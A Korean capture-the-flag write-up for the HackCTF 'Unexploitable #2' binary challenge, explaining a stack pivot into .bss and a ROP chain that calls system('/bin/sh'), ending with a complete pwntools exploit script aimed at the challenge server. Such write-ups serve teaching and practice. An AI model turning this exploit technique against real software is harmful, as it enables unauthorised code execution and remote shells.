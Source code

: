 ```yaml
---
layout: post
title:  "HackCTF Unexploitable #2 write-up"
date:   2020-03-17 19:45:55
image:  hackctf_unex2.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```




### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled.png)

NX 비트가 걸려있다.
<br><br><br>

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%201.png)

바이너리를 실행시켜보면 fflush가 없다! 라는 의미의 문자열이 출력되고 입력을 한번 받는다. 그리고 바로 종료가 된다
<br><br><br>

**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%202.png)

메인을 보면 매우 간단하다. 저번 " Unexploitable #2 " 문제와 매우 유사한데, 차이점은 fflush함수가 없다는 것이다. 저번 문제에서는 .Load 영역에 존재하는 fflush 문자열을 이용하여 간편하게 풀수가 있었다.
<br><br>
하지만 이번에는 fflush가 없으므로 다른 방법으로 풀어야 한다. 또한 gift 함수가 마찬가지로 존재한다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%203.png)


<br><br><br>
### 2. 접근방법

---

저번에 3가지의 방법으로 문제를 풀었었다. 이 중 한가지를 이용하여 문제를 해결하면 된다.

우선, pop rbp; ret 가젯이 존재한다면, rbp값을 변조하여 fget의 버퍼 주소를 바꿔치기 가능하다. 
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%204.png)

rbp-0x10 영역에 입력한 데이터를 저장하므로, 우리는 .bss 영역의 주소를 구한뒤, + 0x10을 하여 rbp값을 저장시키면 된다. 그다음 메인으로 다시 돌아가 gitf함수의 system 함수를 이용하면 된다.

여기서 그냥 바로 gift함수로 가면 rdi에 이상한 값이 들어가게 되므로 rdi값을 저장하는 라인 이후를 ret에 넣어야 한다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%205.png)

따라서 0x40067A 로 돌아가게 하면 된다.

정리를 해보면 다음의 시나리오를 통해 익스를 하면 된다.

<br><br><br>
- **시나리오**
    1. **ret를 pop rbp;ret 로 하여 fgets의 데이터 저장 변수를 바꿔치기 한다.**

        payload = ret(pop rbp;ret 주소) + (.bss주소+0x10) + (main+99 부분)

        sendline(payload)

    2.  **.bss영역에 /bin/sh를 저장한뒤 system함수 호출하기**
        - /bin/sh를 보내면 .bss 영역에 저장되는데 해당 영역 +0x10가 다음 ret위치이다.
        - 따라서 /bin/sh + 0x10에 pop rdi;ret 주소를 넣는다
        - 그다음 rdi에 .bss 주소가 들어가야 하므로 해당 bss 주소를 이어서 붙힌다
        - 그다음 ret를 gitf + 9 위치로 가게끔 한다

        payload =  "/bin/sh\x00" + 더미*0x10 + pop rdi;ret 주소 + .bss주소(rdi에 저장될) + (gift+9 ⇒ ret될 주소임)


<br><br><br><br>

### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3029)
#p=process("./Unexploitable_2")
#gdb.attach(p)

pr=0x4005e0 # pop rbp;ret;
prdi=0x400773 # pop rdi;ret;
bss=0x601050+0x900
main_99=0x4006EE
p.recvuntil("\n")

payload="A"*0x18
payload+=p64(pr)
payload+=p64(bss+0x10)
payload+=p64(main_99)

p.sendline(payload)
payload2="/bin/sh\x00"
payload2+="B"*0x10
payload2+=p64(prdi)
payload2+=p64(bss)
payload2+=p64(0x40067F) #gift+9
pause()
p.sendline(payload2)
p.interactive()
```

<br><br><br><br>
### 4. 몰랐던 개념

---

none
